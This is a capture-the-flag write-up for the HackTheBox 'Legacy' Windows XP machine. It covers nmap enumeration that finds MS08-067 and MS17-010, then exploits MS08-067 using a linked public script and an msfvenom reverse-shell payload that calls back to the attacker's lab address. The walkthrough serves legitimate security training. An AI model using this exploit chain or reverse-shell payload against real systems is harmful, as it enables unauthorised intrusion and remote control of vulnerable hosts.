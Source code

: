 # Legacy
>Author : Xyan1d3
>Date : 23nd June 2021
>IP : 10.10.10.4
>OS : Windows
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jun 23 02:06:02 2021 as: nmap -sC -sV -oN nmap/legacy -v 10.10.10.4
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.080s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h29m47s, deviation: 2h07m16s, median: -5h59m47s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:6e:23 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-06-22T20:36:29+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

The host is running Windows XP as confirmed by the Nmap scripts.
As, The OS is obsolete by now and is ancient. We will be turning towards some SMB exploits.

We run a the `nmap` script called vuln. Which scan's some of the common vulnerability.
```python
# Nmap 7.91 scan initiated Wed Jun 23 14:08:40 2021 as: nmap -sC -sV --script vuln -v -oN nmap/legacy 10.10.10.4
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.080s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

From this script scan we find out that the machine is vulnerable to `MS08-067` and `MS17-010`.

# Exploiting MS08-067
Exploit Link : https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

We have to change the buffer overflow shellcode by using the command by specified inside the exploit.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.15]─[~/htb/legacy]
└──╼ # msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8888 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows           
Found 11 compatible encoders              
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00) 
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348                          
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"                   

*** SNIP ***
```

We need to take the shellcode and replace it in the `MS08-067` exploit shellcode section.

![[Pasted image 20210623154227.png]]
![[Pasted image 20210623153919.png]]

We run the exploit and get a shell on the box as `NT Authority/SYSTEM` on the box.
But, We cannot verify it as Windows XP does not has `whoami.exe` inside. We could copy the `whoami.exe` from our box to the attackbox using the python SMBServer.

![[Pasted image 20210623154651.png]]

## User Flag
We can now get our `user.txt` by navigating `C:\Documents and Settings\john\Desktop` directory.
![[Pasted image 20210623154754.png]]

## Root Flag
We can now get our `root.txt` by navigating `C:\Documents and Settings\Administrator\Desktop` directory.
![[Pasted image 20210623154943.png]]